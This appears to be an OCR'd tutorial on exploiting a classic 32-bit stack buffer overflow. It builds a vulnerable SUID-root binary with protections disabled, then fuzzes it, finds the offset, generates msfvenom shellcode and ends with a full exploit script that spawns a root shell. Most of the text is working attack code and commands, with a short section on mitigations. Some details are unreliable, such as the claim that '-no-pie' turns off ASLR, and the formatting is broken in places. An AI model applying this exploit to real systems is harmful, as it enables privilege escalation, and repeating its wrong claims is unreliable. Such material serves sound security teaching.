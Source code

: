 # Binary Exploitation: A Practical Guide to Buffer Overflows 💥

This guide provides a comprehensive overview and a practical, step-by-step methodology for understanding, identifying, and exploiting a classic stack-based buffer overflow.

**Disclaimer:** This is for educational and ethical research purposes only. The techniques described should only be performed on systems you own or have explicit permission to test. This example uses a simplified 32-bit binary with modern protections disabled to clearly demonstrate the core concepts.

---

### ## 1. Understanding the Vulnerability

A **buffer overflow** is a vulnerability that occurs when a program attempts to write more data into a fixed-size block of memory (a "buffer") than it can hold. This overflow can corrupt adjacent memory, and if done carefully, can overwrite critical program data like the **return address**.

The return address is a pointer on the stack that tells a function where to return to after it has finished executing. By overwriting this address, an attacker can hijack the program's execution flow and redirect it to their own malicious code (**shellcode**).



---

### ## 2. The Setup: Creating a Vulnerable Environment

To learn, we must first create a controlled, vulnerable environment.

#### **A. The Vulnerable Program (`vuln.c`)**
This simple C program uses the unsafe `strcpy` function, which does not perform bounds checking and is the source of our vulnerability.

```c
#include <stdio.h>
#include <string.h>

void vulnerable_function(char *input) {
    char buffer[100];
    // VULNERABLE LINE: strcpy does not check the size of the input.
    strcpy(buffer, input);
}

int main(int argc, char **argv) {
    if (argc > 1) {
        vulnerable_function(argv[1]);
    }
    return 0;
}
B. Compilation (Disabling Protections)

We compile the code as a 32-bit binary and disable modern security features that would otherwise prevent this classic exploit.

Bash
# -m32: Compile as 32-bit
# -fno-stack-protector: Disables stack canaries
# -z execstack: Makes the stack executable (disables NX/DEP)
# -no-pie: Disables Position-Independent Executable (turns off ASLR)
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vuln vuln.c

# Set the SUID bit to simulate a privileged binary
sudo chown root:root vuln
sudo chmod u+s vuln
C. Required Tools

GDB: The GNU Debugger. We'll use an enhancement like GEF, PEDA, or Pwndbg for better readability.

Python: For scripting and generating payloads.

## 3. The Methodology: From Crash to Shell

This is the step-by-step process to find and exploit the vulnerability.

Step 1: Fuzzing to Find the Crash

First, confirm the program is vulnerable by sending it a long string of characters and verifying that we can control the instruction pointer (EIP).

Procedure:

Start the program within GDB.

Bash
gdb ./vuln
Run the program with a long string of 'A's (hex 0x41).

Kódrészlet
(gdb) run $(python -c 'print("A" * 300)')
Analyze the crash.

Kódrészlet
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()

(gdb) info registers eip
eip            0x41414141    0x41414141
Result: The EIP register now contains 0x41414141. This confirms we have control over the program's execution flow.

Step 2: Finding the Exact Offset

Now, we need to find the exact number of bytes required to overwrite the EIP. We do this using a unique, non-repeating pattern.

Procedure:

Generate a unique pattern of 300 bytes.

Bash
/usr/share/metrasploit-framework/tools/exploit/pattern_create.rb -l 300
# Output: Aa0Aa1Aa2...
Run the program in GDB with this unique pattern.

Kódrészlet
(gdb) run Aa0Aa1Aa2...
The program will crash. Note the value in the EIP register (e.g., 0x61413461).

Calculate the offset using the EIP value.

Bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x61413461
# Output: [*] Exact match at offset 112
Result: We now know that the EIP is overwritten starting at byte 112.

Step 3: Generating Shellcode

Shellcode is a small piece of machine code that performs an action, typically spawning a shell (/bin/sh).

Command (msfvenom):

Bash
# Generate 32-bit Linux shellcode to spawn /bin/sh, avoiding null bytes
msfvenom -p linux/x86/exec CMD=/bin/sh -b '\x00' -f python
# Output:
# buf =  b""
# buf += b"\xdb\xcb\xd9\x74\x24\xf4\x5b\x29\xc9\xb1\x0b..."
Step 4: Building and Executing the Final Exploit

We assemble a final payload with the structure: JUNK + NEW_EIP + NOP_SLED + SHELLCODE.

JUNK: 112 bytes of padding to reach the return address.

NEW_EIP: The address we want to jump to. This should point to our NOP Sled on the stack. We can find a suitable stack address using GDB (info frame).

NOP Sled: A series of "No-Operation" instructions (\x90) that act as a landing strip.

SHELLCODE: The machine code generated in Step 3.

Exploit Script (exploit.py):

Python
import struct

# 1. Find the offset (we found 112)
junk = b"A" * 112

# 2. Find a return address. Run 'info frame' in GDB after a crash.
#    Let's assume we find a good address at 0xffffd6a0
new_eip = struct.pack("<I", 0xffffd6a0)

# 3. Create a NOP sled
nops = b"\x90" * 32

# 4. Add the shellcode from msfvenom
shellcode = b"\xdb\xcb\xd9\x74\x24\xf4\x5b\x29\xc9\xb1\x0b\x83\xeb\xfc\x31\x53\x13\x03\x70\x05\x06\xe3\x08\x91\x34\x51\x70\x9b\x01\x64\x7a\x6b\xca\x07\x07\x1c\x26\x91\x2c\x41\x59\xbd\x95\xc2\xde\xcd\x05\x18\x70\xc3\x25\x05\x0e\x6b\x8f\x8d\x46\x37\x96\x60\xf3\x11\x5a\x27\x5e\x15\x4a\x91\x4a\x0c\x82\x04\x40\x12\x7b\x2f\x62\x69\x6e\x2f\x73\x68"

# 5. Combine and print the payload
payload = junk + new_eip + nops + shellcode
print(payload.decode('latin-1'))
Execution:

Bash
# Run the vulnerable program with the output of our script as the argument
./vuln "$(python exploit.py)"

# If successful, you will have a new shell!
$ whoami
root
## 4. Modern Mitigations

Modern systems are protected against this classic attack. Understanding these defenses is key to secure coding.

Stack Canaries: A secret value placed on the stack before the return address. If this value is changed by an overflow, the program safely aborts.

ASLR (Address Space Layout Randomization): Randomizes the memory locations of the stack, libraries, and heap, making it difficult for an attacker to know what address to jump to.

DEP/NX Bit (Data Execution Prevention / No-Execute): Marks memory regions like the stack as non-executable. Even if an attacker redirects EIP to the stack, the CPU will refuse to execute the shellcode. This defense led to more advanced techniques like Return-Oriented Programming (ROP).
